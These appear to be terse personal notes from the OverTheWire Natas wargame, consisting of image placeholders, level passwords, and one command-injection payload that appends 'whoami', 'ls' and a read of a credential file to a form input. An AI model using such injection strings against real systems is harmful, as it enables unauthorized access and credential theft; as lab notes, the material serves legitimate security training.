 user:
pass:Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
![[Pasted image 20230214191424.png]]
![[Pasted image 20230214191612.png]]

![[Pasted image 20230214192237.png]]
;whoami && ls -la && cat /etc/natas_webpass/natas10

![[Pasted image 20230214200223.png]]
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE